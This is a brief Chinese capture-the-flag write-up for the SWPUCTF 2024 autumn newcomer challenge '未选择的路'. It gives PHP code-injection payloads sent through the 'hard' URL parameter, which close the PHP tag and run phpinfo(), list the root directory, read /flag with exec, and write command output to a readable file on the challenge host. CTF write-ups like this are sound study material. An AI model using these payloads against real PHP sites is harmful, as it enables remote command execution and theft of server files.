 ## [SWPUCTF 2024 秋季新生赛]未选择的路

![](C:\Users\ASUS\AppData\Roaming\marktext_specialedition\images\2024-11-29-17-43-11-image.png)

?hard=?><?phpinfo()?>就可以了

或者hard=?><?php var_dump(exec("ls /"));?>

hard=?><?php var_dump(exec(“cat /flag”));?>

var_dump可以换成echo

ls /的时候发现只看见了var可以通过以下方式看见根目录的所有内容：

?hard=?><?php var_dump(exec("ls / > a.txt"));?>

http:// node6.anna.nssctf.cn:28063 /a.txt
